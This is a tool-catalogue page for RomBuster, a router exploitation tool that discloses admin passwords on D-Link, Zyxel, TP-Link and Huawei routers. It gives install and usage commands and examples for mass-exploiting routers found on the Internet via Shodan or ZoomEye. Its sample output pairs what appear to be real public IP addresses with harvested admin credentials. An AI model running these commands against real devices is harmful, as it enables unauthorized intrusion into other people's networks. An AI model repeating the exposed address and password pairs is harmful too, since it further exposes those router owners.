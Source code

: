 ```yaml
---
title : "RomBuster"
# pre : ' '
description : "RomBuster is a router exploitation tool that allows to disclosure network router admin password."
date : 2021-07-06T11:24:47+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## RomBuster

Is a router exploitation tool that allows to disclosure network router admin password.

**Features**:

* Exploits vulnerabilities in most popular routers such as D-Link, Zyxel, TP-Link and Huawei.
* Optimized to exploit multiple routers at one time from list.
* Simple CLI and API usage.

## Installation

```plain
python3 -m pip install git+https://github.com/EntySec/RomBuster
```

## Usage

```plain
rombuster [-h] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN] [--zoomeye ZOOMEYE] [-p PAGES]
```

## Flags

```plain
RomBuster is a router exploitation tool that allows to disclosure network router admin password.

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

## Examples

### Exploiting single router

Let's hack my router just for fun.

```plain
rombuster -a 192.168.99.1
```

### Exploiting routers from Internet

Let's try to use Shodan search engine to exploit routers over Internet.

```plain
rombuster --shodan [API-KEY]
```

```plain
$ rombuster --shodan [REDACTED]
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[+] (187.200.68.1:80) - admin:3931623066
[+] (2.191.126.139:80) - admin:admin
[*] Exploiting...
```

### Exploiting routers from input file

Let's try to use opened database of routers.

```plain
rombuster -i routers.txt -o passwords.txt
```

NOTE: It will exploit all routers in `routers.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

## URL List

- [Github.com - RomBuster](https://github.com/EntySec/RomBuster)
